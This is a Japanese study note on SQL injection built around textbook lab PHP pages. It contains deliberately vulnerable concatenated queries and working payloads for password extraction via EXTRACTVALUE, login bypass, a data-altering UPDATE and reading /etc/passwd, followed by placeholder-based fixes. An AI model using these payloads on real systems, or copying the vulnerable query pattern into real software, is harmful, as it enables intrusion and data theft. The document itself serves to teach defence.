

# SQL呼び出しに伴う脆弱性

## 4.4.1 SQLインジェクション

### 攻撃手法と影響

44-001.php

```html
<?php
  header('Content-Type: text/html; charset=UTF-8');
  $author = $_GET['author'];
  try {
    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook", "root", "wasbook");
    $db->query("Set names utf8");
    // $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_WARNING);
    $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $sql = "SELECT * FROM books WHERE author ='$author' ORDER BY id";
    $ps = $db->query($sql);
?>
<html>
<body>
<table border=1>
<tr>
<th>蔵書ID</th>
<th>タイトル</th>
<th>著者名</th>
<th>出版社</th>
<th>出版年月</th>
<th>価格</th>
</tr>
<?php
    while ($row = $ps->fetch()){
      echo "<tr>\n";
      for ($col = 0; $col < 6; $col++) {
        echo "<td>" . $row[$col] . "</td>\n";
      }
      echo "</tr>\n";
    }
  } catch (PDOException $e) {
    echo "Error : " . $e->getMessage() . "\n";
  }
?>
</table>
</body>
</html>
```

* 攻撃コード

  ```http
  http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(
  SELECT+CONCAT(%27$%27,id,%27:%27,pwd)+FROM+users+LIMIT+0,1
  ))+--+
  ```

  

  →ユーザ情報とパスワードが入手されている

  　エラーメッセージには、内部的なエラー内容は表示させないようにすべき

#### UNION SELECTを用いた情報漏洩

#### SQLインジェクションによる認証回避

44-002.html

```html
<html>
<head><title>ログインしてください</title></head>
<body>
<form action="44-003.php" method="POST">
ユーザ名<input type="text" name="ID"><br>
パスワード<input type="text" name="PWD"><br>
<input type="submit" value="ログイン">
</form>
</body>
</html>
```

44-003.php

```html
<?php
  session_start();
  header('Content-Type: text/html; charset=UTF-8');
  $id = @$_POST['ID'];   // ユーザID
  $pwd = @$_POST['PWD']; // パスワード
  // データベースに接続
  $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook", "wasbook", "wasbook");
  // SQLの組み立て
  $sql = "SELECT * FROM users WHERE id ='$id' AND PWD = '$pwd'";
  $ps = $db->query($sql);   // クエリー実行
?>
<html>
<body>
<?php
  if ($ps->rowCount() > 0) { // SELECTした行が存在する場合ログイン成功
    $_SESSION['id'] = $id;
    echo 'ログイン成功です';
  } else {
    echo 'ログイン失敗です';
  }
  // pg_close($con);
?>
</body>
</html>
```

パスワードへの入力値

```
' or 'a'='a
```


#### SQLインジェクション攻撃によるデータ改善

攻撃URL

```http
http://example.jp/44/44-001.php?author=%27;
UPDATE+books+SET+TITLE%3D%27%3Ci%3Ecracked!%3C/i%3E%27+WHERE+id%3D%271001%27
--+
```


```html
<i>cracked!</i>
```

上記がWEB上で解釈されてしまっている。<script>タブや<iflame>タブを仕様することで悪意のあるコードを生成されてしまう可能性がある。


#### その他の攻撃

データベースエンジンによっては、SQLインジェクション攻撃によって、以下が可能になる場合がある。

* OSコマンドの実行
* ファイルの読み出し
* ファイルの書き出し
* HTTPリクエストによりほかのサーバーを攻撃

ファイルの読み出しについてみていく

* 攻撃コード

  ```
  http://example.jp/44/44-001.php?author=%27;LOAD+DATA+INFILE+%27/etc/passwd%27+INTO+TABLE+books+(title)--+
  ```

  ```
  LOAD DATA INFILE '/etc/passwd' INTO TABLE books (title)
  ```

  * LOAD DATA INFILE文はMySQLの拡張機能で、ファイルをテーブルに読み込む。

  * /etc/passwdがbooksテーブルのtitle列に読み込まれる

  * 以下のURLで閲覧する

    ```html
    http://example.jp/44/44-001.php?author=%27OR+author+IS+NULL--+
    ```

    

### 脆弱性が生まれる原因

#### 文字列リテラルの問題

### 対策

* (a)プレースホルダによりSQLを組み立てる
* (b)アプリケーション側でSQLを組み立てる際に、リテラルを正しく構成するなどSQL文が変更されないようにする

(b)は完全な対応が難しいため(a)で対応する。

44-004.php

```html
<?php
  header('Content-Type: text/html; charset=UTF-8');
  $author = $_GET['author'];
  try {
    $opt = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
                 PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
                 PDO::ATTR_EMULATE_PREPARES => false);
//    if (defined('PDO::MYSQL_ATTR_MULTI_STATEMENTS')) {
//      $opt[PDO::MYSQL_ATTR_MULTI_STATEMENTS] = false;
//    }

    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook;charset=utf8", "wasbook", "wasbook", $opt);
    $sql = "SELECT * FROM books WHERE author = ? ORDER BY id";
    $ps = $db->prepare($sql);
    $ps->bindValue(1, $author, PDO::PARAM_STR);
    $ps->execute();
?>
<html>
<body>
<table border=1>
<tr>
<th>蔵書ID</th>
<th>タイトル</th>
<th>著者名</th>
<th>出版社</th>
<th>出版年月</th>
<th>価格</th>
</tr>
<?php
    while ($row = $ps->fetch()) {
      echo "<tr>\n";
      for ($col = 0; $col < 6; $col++) {
        echo "<td>" . $row[$col] . "</td>\n";
      }
      echo "</tr>\n";
    }
  } catch (PDOException $e) {
    error_log("Query Error : " . $e->getMessage());
    die("ただいまサイトが大変混雑しています。しばらく経ってからご利用ください");
  }
?>
</table>
</body>
</html>
```

* bindValueメソッドで実際の値を指定している。プレースホルダに値を割り当てることを**バインド**と呼ぶ。

#### PDOの安全な利用方法

PDO(PHP Data Objects)のコンストラクタの第4引数は、PDOにオプション指定する。

```php
try {
    $opt = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
                 PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
                 PDO::ATTR_EMULATE_PREPARES => false);

    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook;charset=utf8", "wasbook", "wasbook", $opt);
```

■PDOのオプション

| オプション                       | 意味                     | デフォルト値                                  |
| -------------------------------- | ------------------------ | --------------------------------------------- |
| PDO::ATTR_ERRMODE                | PDOのエラーモード        | PDO::ERRMODE_SILENT<br />(単にエラー値を返す) |
| PDO::MYSQL_ATTR_MULTI_STATEMENTS | 複文の実行を許可する     | true                                          |
| PDO::ATTR_EMULATE_PREPARES       | 動的プレースホルダを使用 | true                                          |

* 複文とは複数のSQL文をセミコロンで区切って一度に指定実行すること

### 静的プレースホルダと動的プレースホルダの違い

* 静的プレースホルダ

  値のバインドをデータベースエンジンで行う。

  プレースホルダの状態でSQL文がコンパイルされるため、後からSQL文が変更される可能性が原理的にあり得ない。

* 動的プレースホルダ

  動的プレースホルダは、SQLを呼び出すアプリケーション側のライブラリ内で、パラメータをバインドしてからデータベースエンジンに送る方式。バインドにあたってリテラルは適切に構成されるため、処理系にバグがなければSQLインジェクションは発生しない

原理的にSQLインジェクションの可能性がないという点で静的プレースホルダの方が優れている。動的プレースホルダの不適切な実装が原因でSQLインジェクション脆弱性となった例にはJVN#59748723がある。

#### LIKE述語とワイルドカード

LIKE述語の検索パターン指定では、

* 「_」は任意の1文字にマッチ
* 「%」はゼロ文字以上の任意の文字列

にマッチする。

「_」「%」を検索する場合は、エスケープ処理が必要となる。

```SQL
WHERE name LIKE '%#%%' ESCAPE '#'
```

ワイルドカードをエスケープするPHPの関数サンプル

```php
function escape_wildcard($s) {
	return mb_ereg_replace('([_%#])', '#\1', $s);
}	
```

[]：カッコ内に含まれる1文字にマッチする
#\1：対象の文字の先頭に"#\"を付与するという意味だと思う....(ちょっと自信なし)

その他のデータベースエンジンではエスケープするべき文字に違いがある

ワイルドカードのエスケープが必要な文字

| データベース  | エスケープ対象文字 | 補足                                                |
| ------------- | ------------------ | --------------------------------------------------- |
| MySQL         | _%                 |                                                     |
| PostgreSQL    | _%                 |                                                     |
| Oracle        | _%＿％             | 全角文字もエスケープが必要                          |
| MS SQL Server | _%[                | [a-z]のような正規表現風のワイルドカードが使えるため |
| IBM DB2       | _%＿％             | 全角文字もエスケープが必要                          |

### SQLインジェクションの保険的対策

* 詳細なエラーメッセージの抑止
* 入力値の妥当性検証
* データベースの権限設定